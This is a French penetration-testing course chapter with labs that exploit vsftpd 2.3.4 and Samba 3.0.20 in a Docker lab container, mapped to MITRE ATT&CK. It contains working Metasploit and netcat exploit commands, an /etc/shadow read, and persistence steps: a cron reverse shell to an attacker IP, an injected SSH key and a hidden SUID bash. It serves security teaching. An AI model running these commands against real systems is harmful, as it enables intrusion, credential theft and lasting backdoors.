




# Chapitre 02 : Tests de pénétration et exploitation

---

## Objectifs pédagogiques

- Construire une kill chain ATT&CK complète de la reconnaissance à la persistance
- Mapper les méthodologies OWASP/PTES sur les tactiques ATT&CK
- Réaliser une reconnaissance réseau complète avec nmap (T1046, T1595)
- Exploiter vsftpd 2.3.4 et Samba 3.0.20 avec Metasploit
- Obtenir un shell root et mettre en place une persistance (TA0003)

---

## Setup rapide — Définir les variables

```bash
if [ -f /.dockerenv ]; then
    TARGET="vsftpd"        ; PORT_FTP="21"  ; PORT_SMB="445"
    TARGET_MYSQL="vsftpd"  ; PORT_MYSQL="3306"
    echo "→ Scénario B"
else
    TARGET="localhost"     ; PORT_FTP="21"  ; PORT_SMB="445"
    TARGET_MYSQL="localhost"; PORT_MYSQL="3306"
    echo "→ Scénario A"
fi
KALI_IP=$(hostname -I | awk '{print $1}')
DOCKER_BRIDGE=$(ip addr show docker0 2>/dev/null | grep 'inet ' | awk '{print $2}' | cut -d/ -f1)
echo "Kali IP : $KALI_IP  |  Docker bridge : $DOCKER_BRIDGE"
```

---

## 1. Méthodologies de pentest et ATT&CK Kill Chain



### Kill chain ATT&CK de ce chapitre



---

## Lab 2.1 — Reconnaissance du conteneur Metasploitable

### 📋 Fiche de lab

| Propriété | Valeur |
|---|---|
| **Durée** | 45 min |
| **Conteneur** | `vsftpd` (ports 21, 22, 445, 3306, 5432...) |
| **Dossier de travail** | `~/cours-hacking/jour-2/labs/` |
| **Fichiers à créer** | `recon.sh` |
| **Tactique ATT&CK** | TA0007 Discovery → T1046 Network Scan |

### Prérequis

- [x] Conteneur vsftpd lancé : `docker compose up -d vsftpd`
- [x] Dossier créé : `mkdir -p ~/cours-hacking/jour-2/labs/recon && cd ~/cours-hacking/jour-2/labs`
- [x] Variables chargées (voir Setup rapide ci-dessus)

### Étape 1 — Scan complet

```bash
cd ~/cours-hacking/jour-2/labs
nmap -sV -sC -p- "$TARGET" -oA recon/full_scan 2>&1 | tee recon/scan_output.txt
```

Résultat attendu (extrait) :

```
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1
23/tcp   open  telnet      Linux telnetd
80/tcp   open  http        Apache httpd 2.2.8
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
```

**Checkpoint A :** Au moins 8 ports ouverts identifiés.

### Étape 2 — Scan de vulnérabilités ciblé

```bash
nmap --script ftp-vsftpd-backdoor -p "$PORT_FTP" "$TARGET" | tee recon/vsftpd_scan.txt
nmap --script smb-vuln* -p "$PORT_SMB" "$TARGET" | tee recon/smb_scan.txt
```

**Checkpoint B :** Les scripts NSE confirment la backdoor vsftpd et les vulns SMB.

### Étape 3 — Script de reconnaissance automatisé

Créez `~/cours-hacking/jour-2/labs/recon.sh` :

```bash
#!/bin/bash
TARGET="${1:-localhost}"
PORT_FTP="${2:-21}"
PORT_SMB="${3:-445}"
OUTDIR="recon/$(date +%H%M)"
mkdir -p "$OUTDIR"

echo "[*] TA0007 Discovery — $TARGET"
nmap -sV -sC -p 21,22,23,80,445,3306,5432 "$TARGET" -oA "$OUTDIR/ports"
nmap --script ftp-vsftpd-backdoor -p "$PORT_FTP" "$TARGET" -oA "$OUTDIR/vsftpd"
nmap --script smb-vuln* -p "$PORT_SMB" "$TARGET" -oA "$OUTDIR/smb"
echo "[+] Résultats dans $OUTDIR/"
ls -la "$OUTDIR/"
```

```bash
chmod +x recon.sh
# Scénario A :
./recon.sh localhost 21 445
# Scénario B :
./recon.sh vsftpd 21 445
```

---

## Lab 2.2 — Exploitation vsftpd 2.3.4 (Backdoor)

### 📋 Fiche de lab

| Propriété | Valeur |
|---|---|
| **Durée** | 40 min |
| **Conteneur** | `vsftpd` (backdoor sur port 6200) |
| **Tactique ATT&CK** | TA0001 Initial Access → T1190 |

### Comprendre la vulnérabilité

vsftpd 2.3.4 a une backdoor : un nom d'utilisateur contenant `:)` ouvre un shell root sur le port 6200.



### Étape 1 — Exploitation avec Metasploit

```bash
# Scénario A : set RHOSTS localhost
# Scénario B : set RHOSTS vsftpd

msfconsole -q -x "use exploit/unix/ftp/vsftpd_234_backdoor; set RHOSTS $TARGET; set RPORT $PORT_FTP; run"
```

Sortie attendue :

```
[*] Banner: 220 (vsFTPd 2.3.4)
[+] Backdoor service has been spawned, handling...
[+] UID: uid=0(root) gid=0(root)
[*] Command shell session 1 opened
```

**Checkpoint A :** `uid=0(root)` — shell root obtenu.

### Étape 2 — Exploitation manuelle (sans Metasploit)

```bash
# Terminal 1 : déclencher la backdoor
echo -e "user :)\npass x" | nc "$TARGET" "$PORT_FTP" > /dev/null 2>&1 &

# Attendre 2 secondes

# Terminal 2 : connexion au shell
nc "$TARGET" 6200
whoami
# → root
```

**Checkpoint B :** `whoami` = `root` via exploitation manuelle.

### Étape 3 — Post-exploitation

```bash
whoami                         # root
hostname                       # ID conteneur
uname -a                       # Kernel
cat /etc/shadow | head -5      # Hashs de mots de passe
ss -tulpn                      # Services internes
```

---

## Lab 2.3 — Exploitation Samba + Kill Chain complète

### 📋 Fiche de lab

| Propriété | Valeur |
|---|---|
| **Durée** | 50 min |
| **Conteneur** | `vsftpd` (Samba 3.0.20 sur port 445) |
| **Tactiques** | TA0001 → TA0002 → TA0003 → TA0004 |

### Étape 1 — Exploitation Samba usermap (CVE-2007-2447)

Technique ATT&CK : T1210 Exploitation of Remote Services → TA0008 Lateral Movement

```bash
msfconsole -q -x "use exploit/multi/samba/usermap_script; set RHOSTS $TARGET; set RPORT $PORT_SMB; run"
```

Sortie attendue :

```
[*] Command shell session opened
whoami
# root
```

### Étape 2 — Comparaison des exploits

| Caractéristique | vsftpd 2.3.4 | Samba 3.0.20 |
|---|---|---|
| **Service** | FTP (21) | SMB (445) |
| **ATT&CK** | T1190 | T1210 |
| **Tactique** | Initial Access | Lateral Movement |
| **Mécanisme** | Backdoor binaire | Usermap shell escape |

### Étape 3 — Persistance (TA0003)

Dans le shell root obtenu :

```bash
# Méthode 1 : Clé SSH
mkdir -p /root/.ssh
echo "VOTRE_CLE_PUBLIQUE_SSH" >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys

# Méthode 2 : Cron reverse shell (remplacer par l'IP Kali adaptée)
# Scénario A : utiliser $DOCKER_BRIDGE (172.17.0.1)
# Scénario B : utiliser $KALI_IP ou le nom de service kali-attacker
echo "* * * * * root bash -c 'bash -i >& /dev/tcp/<KALI_IP>/5555 0>&1'" >> /etc/crontab

# Méthode 3 : SUID bash caché
cp /bin/bash /tmp/.hidden_bash
chmod 4755 /tmp/.hidden_bash
```

### Étape 4 — Documentation Kill Chain



Complétez ce tableau :

| Phase | Tactic | Technique | Outil | Résultat |
|---|---|---|---|---|
| 1 | TA0007 Discovery | T1046 | nmap -sV | 8+ ports identifiés |
| 2 | TA0001 Initial Access | T1190 | msf vsftpd | Shell root |
| 3 | TA0002 Execution | T1059.004 | netcat | Command shell |
| 4 | TA0003 Persistence | T1098.004 | SSH keys | Clé ajoutée |

### Checkpoints finaux

- [ ] nmap identifie 8+ ports
- [ ] vsftpd 2.3.4 exploité → shell root
- [ ] Samba 3.0.20 exploité → shell root
- [ ] Persistance mise en place
- [ ] Kill chain ATT&CK documentée
- [ ] `/etc/shadow` lisible dans le shell

---

## Exercices

### Exercice 1 : Couche ATT&CK Navigator J2

**Énoncé :** Créez une couche avec les techniques du jour. Exportez dans `~/cours-hacking/jour-2/killchain_j2.json`.

<details>
<summary><strong>Solution</strong></summary>

ATT&CK Navigator → New Layer → T1046, T1190, T1210, T1059.004, T1098.004
Colorer par criticité. Exporter JSON.
</details>

### Exercice 2 : Mapping EternalBlue

**Énoncé :** WannaCry utilisait EternalBlue. Quelles techniques ATT&CK ?

<details>
<summary><strong>Solution</strong></summary>

EternalBlue → T1210 (TA0008), DoublePulsar → T1543.003 (TA0003), Ransomware → T1486 (TA0014)
</details>

---

## Points clés à retenir

- Kill chain ATT&CK : TA0007 → TA0001 → TA0002 → TA0003
- vsftpd 2.3.4 → T1190 (backdoor smiley), Samba 3.0.20 → T1210 (usermap)
- La persistance (TA0003) distingue intrusion et compromission durable
- **Reverse shell IP** : Scénario A → `172.17.0.1`, Scénario B → IP conteneur Kali

## Pour aller plus loin

- [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)
- [ATT&CK Enterprise Matrix](https://attack.mitre.org/matrices/enterprise/)
- [GTFOBins](https://gtfobins.github.io/)

---

*Chapitre précédent : [Jour 1](./JOUR-01.md)*
*Chapitre suivant : [Jour 3](./JOUR-03.md)*
*Guide Environnement : [ENVIRONNEMENT.md](./ENVIRONNEMENT.md)*
